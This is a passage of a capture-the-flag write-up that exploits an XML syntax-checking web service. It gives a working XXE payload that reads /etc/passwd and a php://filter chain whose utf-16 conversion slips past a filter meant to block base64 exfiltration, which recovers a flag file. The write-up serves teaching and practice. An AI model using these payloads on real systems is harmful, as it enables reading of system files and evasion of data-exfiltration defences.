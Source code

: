This is a weird way to pass XML content, though. Let's try sending it in the HTTP body rather than in the URL:

![](syntaxcheck1.png)

Okay, so we don't exactly know what's going on but our XML is parsed and "rendered". We immediately think of XXE injection:

```xml=
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<foo>&test;</foo>
```

This payload does leak `/etc/passwd`!

But once we want to exfiltrate the file of interest:

![](syntaxcheck2.png)

Some kind of filter prevents us from getting its contents...

Let's try a classic PHP filter and some path obfuscation:

```!
php://filter/read=convert.base64-encode/resource=/var/./www/../www/html/./flag
```

Still won't work: this time around we get an error saying something like "Are you trying to exfiltrate data using base64?".

After some trial and error, we manage to find a good filter:

```!
php://filter/read=convert.iconv.utf-16le.utf-8/resource=/var/www/html/flag
```

This outputs the contents of the file but with some utf-16 conversion, which makes it look like random Chinese characters.

```
瑣筦㈰摢㠴㈶㌷㈰㌶㈶㡥㙡㘹挱㍤〳㠳㈱㜰挳〵慦㔷戹㈴戰攱愷ㄱ㉡㍣扡.〳
```

We can now retrieve the true contents of the file by encoding what we get back into utf-16, for instance using Cyberchef:

```
ctf{02bd486273026362e8a6961cd3303812073c50fa759b420b1e7a11a2c3ab0130}
```

Enjoy :)
